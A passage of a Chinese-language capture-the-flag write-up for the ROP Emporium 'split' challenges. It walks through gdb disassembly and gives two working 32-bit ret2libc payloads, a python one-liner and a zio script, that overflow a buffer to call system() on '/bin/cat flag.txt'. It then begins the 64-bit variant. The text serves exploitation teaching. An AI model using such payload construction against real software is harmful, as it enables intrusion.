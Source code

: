 ```
   0xf7df9c76 <+38>:    call   0xf7df9700 <do_system>
   0xf7df9c7b <+43>:    test   eax,eax
   0xf7df9c7d <+45>:    sete   al
   0xf7df9c80 <+48>:    add    esp,0xc
   0xf7df9c83 <+51>:    movzx  eax,al
   0xf7df9c86 <+54>:    ret    
End of assembler dump.
gdb-peda$ x/5x 0x08048430
0x8048430 <system@plt>: 0xa01825ff      0x18680804      0xe9000000      0xffffffb0
0x8048440 <__libc_start_main@plt>:      0xa01c25ff
```
其实这里讲 plt 不是很确切，因为 system 使用太频繁，在我们使用它之前，它就已经绑定了，在后面的挑战中我们会遇到没有绑定的情况。

两种 payload 如下：
```
$ python2 -c "print 'A'*44 + '\x57\x86\x04\x08' + '\x30\xa0\x04\x08'" | ./split32 
...
> ROPE{a_placeholder_32byte_flag!}
```
```python
from zio import *

payload  = "A"*44
payload += l32(0x08048430)
payload += "BBBB"
payload += l32(0x0804a030)

io = zio('./split32')
io.writeline(payload)
io.read()
```
注意 "BBBB" 是新的返回地址，如果函数 ret，就会执行 "BBBB" 处的指令，通常这里会放置一些 `pop;pop;ret` 之类的指令地址，以平衡堆栈。从 system() 函数中也能看出来，它现将 esp 减去 0xc，再取地址 esp+0x10 处的指令，也就是 "BBBB" 的后一个，即字符串的地址。因为 `system()` 是 libc 中的函数，所以这种方法称作 ret2libc。

#### split
```
$ rabin2 -z split
...
vaddr=0x00601060 paddr=0x00001060 ordinal=000 sz=18 len=17 section=.data type=ascii string=/bin/cat flag.txt
```
字符串地址在 `0x00601060`。

```
gdb-peda$ disassemble usefulFunction 
Dump of assembler code for function usefulFunction:
   0x0000000000400807 <+0>:     push   rbp
   0x0000000000400808 <+1>:     mov    rbp,rsp
   0x000000000040080b <+4>:     mov    edi,0x4008ff
   0x0000000000400810 <+9>:     call   0x4005e0 <system@plt>
   0x0000000000400815 <+14>:    nop
   0x0000000000400816 <+15>:    pop    rbp
   0x0000000000400817 <+16>:    ret    
End of assembler dump.
```
64 位程序的第一个参数通过 edi 传递，所以我们需要再调用一个 gadgets 来将字符串的地址存进 edi。
